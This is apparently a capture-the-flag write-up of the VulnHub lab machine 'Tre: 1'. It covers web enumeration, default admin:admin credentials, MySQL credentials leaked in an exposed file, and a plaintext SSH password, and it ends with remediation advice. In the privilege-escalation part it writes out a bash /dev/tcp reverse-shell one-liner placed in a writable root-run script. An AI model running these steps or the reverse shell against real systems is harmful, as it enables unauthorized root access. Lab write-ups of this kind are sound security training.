


# Tre: 1

Difficulty:: #Medium
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [Tre: 1](https://www.vulnhub.com/entry/tre-1,483/)
- CVSS3 : [AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:U/RL:O/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H/E:U/RL:O/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*Machine Name: Tre
Author: SunCSR Team
Difficulty: Intermediate
Tested: VMware Workstation 15.x Pro (This works better with VMware rather than VirtualBox)
DHCP: Enabled
Goal: Get the root shell i.e.(root@localhost:~#) and then obtain flag under /root).
Information: Your feedback is appreciated - Email: suncsr.challenges@gmail.com*

## Summary
Tre: 1 starts with multiples endpoints founds by the `nmap` `http-enum` script, and the `/system` endpoint requires basic auth, when I use `feroxbuster` I identify the `/cms` endpoint that stores a website build with [BigTreeCMS ](https://www.bigtreecms.org/), and I also find the  [Adminer](https://www.adminer.org/) `version 4.7.7`. I try some default credentials on the basic auth `/system` endpoint and it works with `admin:admin` and I see a login of the [Mantis bug tracker](https://www.mantisbt.org/). When I use the `feroxbuster` with the `/system` endpoint now that I know the basic auth credentials, then I find the  `/system/config/a.txt` endpoint, and this file stores a copy of the MySQL configuration, and I can see the MySQL credentials that I use in the  `/adminer.php` endpoint, and I find two users in the `mantis_user_table`, I try to crack the two hashes without successful, but I notice that the user `tre` has a strange string in the `realname` field and that strings are the `ssh` connection to the `tre` user. After `ssh` with the credentials `tre:Tr3@123456A!`, I check the `sudo` privileges and identify I can run `/sbin/shutdown` as the `root` user, then I need to be able to modify something that starts with the server as the `root` user, and with the `PSPY` I identify the `/usr/bin/check-system` bash script running as the `root` user, and the `tree` user can modify it, then I store a reverse shell payload and restart the target server, and get the `root` shell and the `root` flag.

1. CWE-1392: Use of Default Credentials
2. CWE-219: Storage of File with Sensitive Data Under Web Root
3. CWE-256: Plaintext Storage of a Password
4. CWE-521: Weak Password Requirements
5. CWE-269: Improper Privilege Management
6. CWE-732: Incorrect Permission Assignment for Critical Resource

#VMWare #Nmap #HashID #HashCat #Feroxbuster #LinPEAS #MD5 #Pspy #MySQL #PHP  #Nginx #CMS #Adminer #BigTree #MantisBT

## Enumeration
When I run the target machine in VMware Workstation 17 Player (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s3 -r 192.168.56.1/24
```
Then I compare the MAC with that of the target VMware configuration, and I find out that the IP is `192.168.56.15`.


And I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-scan 192.168.56.115
...SNIPPED...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
8082/tcp open  http    nginx 1.14.2
...SNIPPED...
```
Then I identify 3 open ports, and the `OpenSSH 7.9p1` service runs on `22` TCP, and the `Apache httpd 2.4.38` service runs on `80` TCP, and the `nginx 1.14.2` service runs on `8082` TCP, and it runs on `Debian 10+deb10u2`. When I rescan it with the `http-enum` script:
```shell
$ nmap -p 80,8082 -sV --script=http-enum -oA scans/nmap_http_scan \
> 192.168.56.115
```
Then I can see:


And it can identify the following endpoints on TCP port `80`:
```shell
/system/admin/
/info.php
/system/admin/header.php
/system/admin/comments_items.php
/system/
```

## Normal use case
Given I access `http://192.168.56.115`, then I can see:



And I can only see a picture. When I access `http://192.168.56.115:8080`, then I can see:


And it is the same image that is in port `80` TCP, but there is no interaction that I can perform on either of the two pages.

## Dynamic detection

Use of default credentials, exposed configuration database file. Given I can access `http://192.168.56.115`, and the `nmap`'s `http-enum` script found some endpoints, then I start reviewing them. When I check the endpoint `/info.php`, then I can see the output of the `phpinfo` function:


And the PHP version is `7.3.14-1~deb10u1`, and it is being executed by the user `www-data`. When I check the endpoint `/system` , then it asks for basic authentication:


And I decided to check this endpoint later, when I use the `feroxbuster` command with a list of SecLists:
```shell
$ feroxbuster -w raft-medium-directories-lowercase.txt -u \
> 'http://192.168.56.115' -x php,txt,html,md,jpg,xml,xls,xls,sh
```
Then I can see many endpoints:



But most are in the `/cms` prefix. When I access `http://192.168.56.115/cms/site/`, then I can see:


And I find the email `contact@solmusic.com`, and I add the domain to my `/etc/hosts` file:
```shell
$ echo "192.168.56.115 solmusic.com" | sudo tee -a /etc/host
```
And I also identify some hyperlinks, but I already find them all with the `feroxbuster` tool. When I access `http://192.168.56.115/adminer.php`, then I can see the [Adminer](https://www.adminer.org/) with  `version 4.7.7`:


When I continue exploring the endpoint found by `feroxbuster`, then I notice that in multiples endpoints I find the word `BigTree`, and in `/cms/core/admin/pages/credits.php` says:
```
BigTree wouldn't have been possible without the tireless work of the
open-source community - and as our way of saying thanks, we decided to
open it up. We'd also like to take a moment to thank those whose work
is included in BigTree.
```
When I google `bigtree CMS`, then I find the [BigTreeCMS website](https://www.bigtreecms.org/), and I also find the [GitHub source code](https://github.com/bigtreecms/BigTree-CMS), When I analyze the structure of the source code, then I find a way to estimate the current version. When I check `/core/composer.json`, then I get the output:
```json
{
    "require": {
        "aws/aws-sdk-php": "^3.52",
        "oyejorge/less.php": "v1.7.0.14",
        "ext-gd": "*",
        "ext-json": "*"
    }
}
```
When I check the history of the `composer.json` file, then I can identify that the version must be below `4.5`. When I google `bigtree cms exploit`, then I can see some recent vulnerabilities:


But most of them require authentication, and I decided to go back to the `/system` endpoint, when I try to guess the basic auth credentials with `admin:admin`, then it works, and I can see a login page:


When I google `mantis bug tracker`, then I can see the [Mantis website](https://www.mantisbt.org/), and I decided to check what endpoints I can find with a dictionary attack. When I use the `feroxbuster` Command, and I add the basic auth credentials header of `admin:admin`, and I use a list of SecLists:
```shell
$ feroxbuster -w raft-medium-directories-lowercase.txt -u \
> 'http://192.168.56.115:/system' -x php,txt,html,md,jpg,xml,xls,xls,sh \
> -H "Authorization: Basic YWRtaW46YWRtaW4="
```
Then I find multiple endpoints:


When I check the directory listing `/system/config/`, then I identify a file called `a.txt`, and it contains MySQL credentials:


When I use those credentials on the `/adminer.php` endpoint, then it works:


When I check the table `mantis_user_table`, then I find two users:


When I store the `administrator` hash password in `administrator.hash`, and I use the `hashid` command:
```shell
$ hashid administrator.hash
...SNIPPED...
Analyzing '3492f8fe2cb409e387ddb0521c999c38'
[+] MD2
[+] MD5
[+] MD4
...SNIPPED...
```
Then I also confirm that it is `MD5` after reading the `MantisBT` source code. When I use the `hashcat` command with the Rockyou list:
```shell
$ hashcat -a 0 -m 0 administrator.hash rockyou.txt --force
```
Then it does not work. When I try to crack the other user's hash, then it does not work either. When I keep looking at the `mantis_user_table` thinking about what to do, then I notice that the `realname` field looks suspicious, and first I try to compute the `MD5` to check if it matches the hash, but it does not match, and I decided to try to use it on an `SSH` connection. When I use the `ssh` command, and the credentials `tre:Tr3@123456A!`:
```shell
$ sshpass -p 'Tr3@123456A!' ssh tre@192.168.56.115
```
Then it works:


And I also try with the credentials `administrator:XiBejMub`, but it does not work, then I can conclude that the `MantisBT` service uses a basic auth, and it has default `admin:admin` credentials, and with the exposure of the config database file, then I can access the `Adminer` service, and I can find the `ssh` user password in plaintext.

## Exploitation
Sudo privileges to restart and permissions to edit a service executable file.

Given I can access `http://192.168.56.115`, and it has the `Adminer` service in `/adminer.php`, and it has the `MantisBT` service in `/system/`, and it uses a default basic auth credentials `admin:admin`, and I can read the database config file at `/system/config/a.txt`, and that allows me to access the database in the `MantisBT` service, and I find a password stored in the `realname` field of the user table, and with that, I was able to access the server with `SSH`, then I am going to explore the server. When I explore the server
And I check the `NGINX` configuration file
```shell
$ tre@tre:/var/www/html$ cat /etc/nginx/sites-available/default \
>| grep -v '#'

...SNIPPED...
  listen 8082 default_server;
  listen [::]:8082 default_server;
  root /usr/share/nginx/html;
  index index.html index.htm index.nginx-debian.html;
  server_name _;
  location / {
...SNIPPED...
```
When I check the root directory:
```shell
$ tre@tre:/var/www/html$ ls -la /usr/share/nginx/html
...SNIPPED...
-rw-r--r-- 1 root root 227984 May 12  2020 file.jpg
-rw-r--r-- 1 root root    164 May 12  2020 index.html
```
Then there is nothing useful. When I check the `sudo`'s privileges:
```shell
$ tre@tre:~$ sudo -l
...
User tre may run the following commands on tre:
    (ALL) NOPASSWD: /sbin/shutdown
```
When I google `privilege escalation with shutdown command`, then I find [Sudo "/usr/sbin/halt", "/usr/sbin/reboot", "/usr/sbin/poweroff" - how to leverage it to privilege escalation?](https://security.stackexchange.com/questions/246288/sudo-usr-sbin-halt-usr-sbin-reboot-usr-sbin-poweroff-how-to-leverag):


And I need to find some files that I can modify, and that this file is executed by the `root` user when I reboot the machine. When I use the `find` command:
```shell
$ tre@tre:~$ find / -writable -ls 2>/dev/null | grep -v /proc \
> | grep -v /run | grep -v /sys
```
Then I can not find anything useful, when I read about [`Linux privilege escalation` in hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/), then I can see that if I find a `.service` or `.socket` writable file, then I could use it to do the privilege escalation, and I decided to use the `LinPEAS` tool to identify them. When I download the `LinPEAS` script:
```shell
$ wget "https://github.com/carlospolop/PEASS-ng/releases/latest/download/
> linpeas.sh"
```
And I upload it to the target machine:
```shell
$ sshpass -p 'Tr3@123456A!' scp linpeas.sh \
> tre@192.168.56.115:/home/tre/linpeas.sh
```
And I give it executable permissions:
```shell
$ tre@tre:~$ chmod +x linpeas.sh
```
And I run it:
```shell
$ tre@tre:~$ ./linpeas.ssh
```
Then I can see:


## Privilege escalation

But none of them are useful, and I decided to try to check if there is any suspicious process, When I download the `PSPY` tool:
```shell
$ wget "https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/
> pspy64"
```
And I follow the same steps as with `LinPEAS`, then I can see:


And every second the root user is running the file `/usr/bin/check-system`, when I check the permissions of that file:
```shell
$ tre@tre:~$ ls -la /usr/bin/check-system
-rw----rw- 1 root root 135 May 12  2020 /usr/bin/check-system
```
Then I was surprised that I can modify that filem and that I had not seen it before. When I check again the previous tools I used, `find` and `LinPEAS`, then I can see that the file was always showing up in the results
And I just ignored it. When I check the content of the file:
```shell
$ tre@tre:~$ cat /usr/bin/check-system
...SNIPPED...
while :
do
echo "Checking...";
sleep 1;
done
```
Then I can that the script prints an echo message every second, and I could change the content of the script to perform a reverse shell, and if I will reboot the machine with sudo privileges, then the modified `check-system` file will be executed, and now, I am gonna try it. When I use the `nano` command to edit the `check-system` file, and I replace the `while` loop with:
```shell
bash -c 'bash -i >& /dev/tcp/192.168.56.101/1234 0>&1'
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I run the `shutdown` command:
```shell
$ tre@tre:~$ sudo /sbin/shutdown -r
```
Then the target machine reboots, but the reverse shell does not work, and I decided to try putting the payload inside the `while` loop, when I modify the `check-system` file with:
```bash
while :
do
echo "Checking...";
bash -c 'bash -i >& /dev/tcp/192.168.56.101/1234 0>&1'
sleep 1;
done
```
And I repeat the above process, then it works, I get the `root` shell, and I get the `root` flag:


## Remediation
Given I can use the default `admin:admin` credentials to access `MantisBT`, and I can read the configuration database file, and with that, I can access `Adminer`, and I see plain text passwords on the user database table, and that password is also used to access `SSH`, and the user has sudo privileges to reboot the target machine, and the user has permission to modify a file used in a service, then do not use default credentials, and do not expose sensitive files in webroot, and store passwords with hash, and do not reuse the password for multiples services, and check the user privileges, and do not allow a user can modify a root service file, then with that, it may not be possible to get the root's shell